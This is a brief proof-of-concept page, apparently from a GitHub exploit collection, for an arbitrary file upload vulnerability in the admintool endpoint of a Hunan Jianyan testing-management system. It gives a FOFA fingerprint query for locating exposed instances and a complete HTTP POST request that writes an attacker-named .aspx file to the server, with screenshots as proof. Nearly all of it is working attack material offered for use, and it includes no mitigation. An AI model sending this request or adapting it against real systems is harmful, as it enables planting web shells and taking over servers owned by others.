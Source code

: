 ## 湖南建研-检测系统 admintool 任意文件上传


## fofa
```
body="/Content/Theme/Standard/webSite/login.css"
```

## poc
```
POST /Scripts/admintool?type=updatefile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Content-Length: 41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

filePath=dmvckiil.aspx&fileContent=123123
```
![7c62372ac4c93cda2a5dbc1ab4b5a986](https://github.com/wy876/POC/assets/139549762/c36d1b3f-f839-40c3-a6ab-23669a0b89dd)

![940cc53a8930c36235859b455f3983ca](https://github.com/wy876/POC/assets/139549762/097b6b6f-1cde-4aad-96f7-7e70a0f6bbe0)
